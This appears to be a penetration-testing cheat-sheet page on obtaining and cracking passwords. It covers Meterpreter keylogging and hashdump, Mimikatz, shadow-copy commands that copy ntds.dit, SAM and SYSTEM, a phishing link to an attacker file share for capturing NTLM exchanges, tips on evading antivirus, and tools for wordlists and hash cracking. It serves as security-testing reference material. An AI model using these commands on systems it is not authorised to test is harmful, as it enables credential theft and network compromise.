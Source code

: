 ```yaml
---
title: Obtaining and Cracking Passwords
category: Post-Exploitation
order: 6
---
```


> **Windows** 

Metasploit Key logger for passwords | keyscan_start, keyscan_stop, keyscan_dump
PwDump | Pwdump drops files to disk and caught by AV <br> http://www.tarasco.org/security/pwdump_7/
Fgdump | fgdump drops files to disk and caught by AV <br> Source available to evade AV <br> http://foofus.net/goons/fizzgig/fgdump/downloads.htm#previous-version
Metasploit hashdump | meterpreter > hashdump (from memory) <br> meterpreter > run hashdump (hash and syskey from registry)
Mimikatz |  https://www.offensive-security.com/metasploit-unleashed/Mimikatz/ <br> https://www.christophertruncer.com/golden-ticket-generation/ <br> http://blog.opensecurityresearch.com/2012/06/using-mimikatz-to-dump-passwords.html <br> http://carnal0wnage.attackresearch.com/2013/10/dumping-domains-worth-of-passwords-with.html
Volume Shadow Copy Service (domain controller) |  Obtain from : <br> https://github.com/lanmaster53/ptscripts/blob/master/windows/vssown.vbs <br> https://github.com/MarkBaggett/MarkBaggett/blob/master/vssown.py  <br> <code> > cscript vssown.vbs /status or /start or /create /c <br> > copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\ntds\ntds.dit ntdsbackup.dit <br> > copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SYSTEM systembackup.bak <br> > copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SAM sambackup.bak <br> Analyze with http://csabarta.com/downloads/ntds_dump_hash.zip
Sniff (Kannan, ntlm, ms kerberos) | E-mail with link: <br> file://[AttackerIP]/[AttackerShare] <br> Sniff the traffic between victim and client for challenge and response"

> **Linux**

/etc/passwd and /etc/shadow

> **Password Lists**

Password Lists in Kali | /usr/share/wordlists/
Tailor Password list to policy | <code> > pw-inspector [-i FILE] [-o FILE] [-m MINLEN] [-M MAXLEN] [-c MINSETS] -l -u -n -p –s  <br> > pw-inspector -i /usr/share/wordlists/nmap.lst -o /root/passes.txt -m 6 -M 1 </code>
Combine Word Lists | <code> > cat wordlist.txt <wordlist2.txt....> | sort | uniq > dictionary.txt </code>
Word List from Website | <code> > mkdir /tmp/source <br> > cd /tmp/source <br> > wget -r -l [Page Depth] [target_website] <br> > cd .. <br> grep -h -r """" source | tr '[:space:]' '\n' | sort | uniq >wordlist.lst <br> > grep -v '<' wordlist.lst > newlist.lst </code>
Password Lists | https://downloads.skullsecurity.org/passwords/

> **Tools**
Rainbow Tables | Ophcrack <br> http://project-rainbowcrack.com <br> http://souceforce.net/projects/ophcrack <br> http://lasecwww.epfl.ch/~oechslin/projects/ophcrack
GPU | MD5 Cracker: http://bvernoux.free.fr/md5/index.php <br> oclHashcat  and Hashcat (same project) <br> CUDA-multiforcer <br> aircrack-ng-CUDA <br> pyrit (WPA and WPA w/ CoWPAtty)
CPU | John and Cain



